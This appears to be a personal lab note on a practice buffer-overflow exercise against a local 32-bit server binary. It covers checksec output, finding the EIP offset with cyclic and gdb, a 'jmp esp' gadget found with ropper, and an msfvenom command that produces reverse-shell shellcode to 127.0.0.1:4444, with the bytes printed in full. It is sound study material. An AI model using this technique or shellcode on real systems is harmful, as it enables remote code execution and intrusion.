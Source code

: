 [[Binary Exploitation/05 Injecting shellcode/Source Code|Source Code]] 

### Basic File checks

1. File -> `./server: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=17a0c596cb6e2e09548a395e34cc676cf85ecd26, for GNU/Linux 3.2.0, not stripped`
2. checksec ->
```python
[*] '/root/binary_exploitation/05/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### Manual Exploitation

Now we don't see any interesting function and since it doesn't have any nx enabled we can assume its a shell execution

Let's identify EIP offset

```python
cyclic 100
gdb-pwndbg ./server
```

Result:

```python
*EAX  0xffffcec0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EBX  0x61616172 ('raaa')
*ECX  0xf7e1e9c4 (_IO_stdfile_0_lock) ◂— 0x0
*EDX  0x1
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049230 (__libc_csu_init) ◂— push ebp
*EBP  0x61616173 ('saaa')
*ESP  0xffffcf10 ◂— 'uaaavaaawaaaxaaayaaa'
*EIP  0x61616174 ('taaa')
```

now the offset is : `76`

Next we need a rop object to jump to the esp because that is where our shell code will be after the EIP is filled with rop object we want it to go to the ESP which has the shellcode we generate using shellcraft

```python
ropper --file ./server --search=jmp
```

Result:

```python
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[INFO] Load gadgets for section: GNU_STACK
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp

[INFO] File: ./server
0x0804919f: jmp esp;
```

Now we need the shellcraft code

We can do this using shellcraft in pwn 

[[Binary Exploitation/05 Injecting shellcode/Python Script#^8c5004|Python Script using shellcraft]]

Now if we want a shell after the code executes we can use msfvenom

we would have to generate the msfvenom payload using

```python
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f python
```

Result:

```python
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of python file: 349 bytes
buf =  b""
buf += b"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0"
buf += b"\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9"
buf += b"\x68\x7f\x00\x00\x01\x68\x02\x00\x11\x5c\x89\xe1"
buf += b"\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
buf += b"\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
buf += b"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
```

Now we can copy everything for the buf variable and put it into the python script and use that as shown in [[Binary Exploitation/05 Injecting shellcode/Python Script#^1b1fba|Python Script using msfvenom]]







